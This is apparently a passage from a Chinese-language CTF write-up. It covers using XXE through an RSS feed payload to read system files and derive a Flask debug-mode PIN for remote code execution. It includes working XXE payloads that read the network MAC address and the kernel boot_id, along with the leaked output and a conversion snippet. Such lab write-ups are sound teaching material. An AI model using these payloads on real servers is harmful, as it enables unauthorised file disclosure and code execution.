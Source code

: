 将一个符合 RSS Feed XML 标准的 payload 放到 HTTP 服务器上就可以 XXE (也可以参考 `https://exp10it.cn/index.xml` 改一改)

但是无法直接读取 /flag 文件, 这里考察获取 Flask 在 Debug 模式下的 PIN Code 以实现 RCE

https://xz.aliyun.com/t/8092

https://www.tr0y.wang/2022/05/16/SecMap-flask/

读取 `/sys/class/net/eth0/address`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
<!ENTITY file SYSTEM "file:///sys/class/net/eth0/address">]>
<rss xmlns:atom="http://www.w3.org/2005/Atom" version="2.0">
    <channel>
        <title>&file;</title>
        <link>https://exp10it.cn/</link>
        <item>
            <title>test</title>
            <link>https://exp10it.cn/</link>
        </item>
    </channel>
</rss>
```

结果

```
02:42:c0:a8:e5:02
```

转换为十进制

```python
int('02:42:c0:a8:e5:02'.replace(':',''),16)
```

结果为 `2485723391234`

然后读取 machine id 或者 boot id

因为这里不存在 `/etc/machine-id`, 所以读取 `/proc/sys/kernel/random/boot_id`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
<!ENTITY file SYSTEM "file:///proc/sys/kernel/random/boot_id">]>
<rss xmlns:atom="http://www.w3.org/2005/Atom" version="2.0">
    <channel>
        <title>&file;</title>
        <link>https://exp10it.cn/</link>
        <item>
            <title>test</title>
            <link>https://exp10it.cn/</link>
        </item>
    </channel>
</rss>
```
